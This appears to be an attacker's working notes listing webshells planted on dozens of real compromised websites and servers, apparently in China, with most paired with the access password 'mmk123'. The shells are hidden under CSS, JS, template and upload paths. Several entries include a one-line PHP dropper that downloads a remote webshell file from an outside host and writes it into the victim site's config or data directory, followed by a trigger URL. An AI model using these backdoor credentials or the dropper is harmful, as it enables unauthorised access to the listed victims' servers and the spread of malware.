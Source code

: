 http://ke.kongquewangxiao.com/app/resource/css/boot.php |mmk123 |  121.196.161.139
代码更新：0608 ✅
http://ke.kongquewangxiao.com/addons/httpd.php
<?php file_put_contents("../data/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://ke.kongquewangxiao.com/data/httpd.php?d=up

http://ke.kongquewangxiao.com/index_bk.php |mmk123 
http://www.kongquewangxiao.com/themes/js/js.php |mmk123 |  121.196.161.139

https://121.196.161.139/index_bk.php |mmk123 
http://47.122.46.79/core/cache/Redis.php |mmk123 
http://47.122.46.79/index_bk.php |mmk123 
http://114.215.157.212:8885/apps/api/view/default/index_bk.php |mmk123 
http://114.215.157.212:8885/index_bk.php |mmk123 

http://tnt.zdxinfo.com/assets/css/skins/skin.php |mmk123 |  123.56.182.44 | 404

http://fy.whqrlm.com/apps/admin/m1.php |mmk123 |  123.56.182.44
代码更新：0608 ✅
http://fy.whqrlm.com/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://fy.whqrlm.com/config/httpd.php?d=up

http://www.xrca.com.cn/static/index_bk.php |mmk123 |  101.200.217.38
代码更新：0608 ✅
http://www.xrca.com.cn/rewrite/httpd.php
<?php file_put_contents("../config/httpd.php",file_get_contents("https://static.alicloudoss.com/mw/wbsh/del_do.min.txt"));?>
执行检查：
http://www.xrca.com.cn/config/httpd.php?d=up

http://36.137.146.112:9001/template/default/fileinput/css/index_bk.php |mmk123 
http://36.137.146.112:9001/index_bk.php |mmk123 
http://118.25.152.47:7077/index_bk.php |mmk123 
https://www.alsophila.net/indexbak.php大马 |Admin001... |大马 | 111.229.208.84
https://111.229.208.84/runtime/data/9e776527ecbc372af46aafe2257957ebfd4.php |mmk123 
https://111.229.208.84/index_bk.php |mmk123 
http://123.56.162.208/index_bk.php |mmk123 
http://8.140.22.9/index_bk.php |mmk123 
http://49.235.71.132:384/index_bk.php |mmk123 

http://bama.jnlg.com.cn/assets/css/skins/skins.php |mmk123 |  111.229.186.206 | 404
http://ziku.jnlg.com.cn/h5/js/rem.php |mmk123 |  111.229.186.206
https://42.51.41.208/runtime/config/4b42677b6c14022f2e21a2a92524fde.php |mmk123 
https://42.51.41.208/index_bk.php |mmk123 
https://www.honggutai.com/index_bk.php |mmk123 |  8.137.167.188


phpboot_dd

https://zhimazhihui.com/ |mmk123 |  81.68.249.222
http://www.loront.com/template/default/images/sms/mr1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.com/1.php |mmk123 |  81.68.249.222
http://www.bengzhiyuan.cn/static/upload/image/20220724/mr1.php |mmk123 |  81.68.249.222
https://kangbanmeijia.com/template/default/bootstrap/css/2m.php |mmk123 |  81.68.249.222
https://gpzyjy.com/static/upload/image/20220909/2m.php |mmk123 |  8.141.57.49 | 禁止访问

